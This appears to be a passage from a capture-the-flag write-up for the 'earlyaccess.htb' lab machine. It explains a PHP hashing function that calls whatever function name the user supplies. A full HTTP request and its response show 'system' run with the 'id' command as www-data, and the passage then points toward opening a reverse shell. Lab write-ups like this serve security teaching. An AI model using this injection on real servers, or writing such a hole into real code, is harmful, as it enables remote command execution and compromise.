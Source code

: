 Both the `verify` and `hash` actions pass the input `hash_function` and `password` parameters to the `hash_pw` function, which calls a function with the same name as the value of the `hash_function` variable with the `password` parameter. The general values of `hash_function` are either `md5` or `sha1`, which results in either `md5($password)` or `sha1($password)` being executed. The resultant hash is returned.

```php
function hash_pw($hash_function, $password)
{
    // DEVELOPER-NOTE: There has gotta be an easier way...
    ob_start();
    // Use inputted hash_function to hash password
    $hash = @$hash_function($password);
    ob_end_clean();
    return $hash;
}
```

In both the `verify` and `hash` actions, if the `debug` parameter is set, the user can specify an arbitrary `hash_function` value. Thus, if `debug` is set, the `hash_function` value of `system` and the `password` value of a `bash` command result in command execution as `www-data`.

```http
GET /actions/file.php?filepath=hash.php&action=hash&debug=true&hash_function=system&password=id HTTP/1.1
Host: dev.earlyaccess.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://dev.earlyaccess.htb
Connection: close
Referer: http://dev.earlyaccess.htb/home.php?tool=hashing
Cookie: PHPSESSID=3012a4d5c37f5657582d464dfa3a33ff
Upgrade-Insecure-Requests: 1
```

```http
HTTP/1.1 200 OK
Date: Thu, 17 Feb 2022 13:52:44 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.21
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 187
Connection: close
Content-Type: text/html; charset=UTF-8

<h2>Executing file:</h2><p>hash.php</p><br>Result for Hash-function (system) and password (id):<br><br>uid=33(www-data) gid=33(www-data) groups=33(www-data)<h2>Executed file successfully!
```

Start a reverse shell listener and leverage this injection to initiate a full reverse shell as `www-data` on `webserver`.
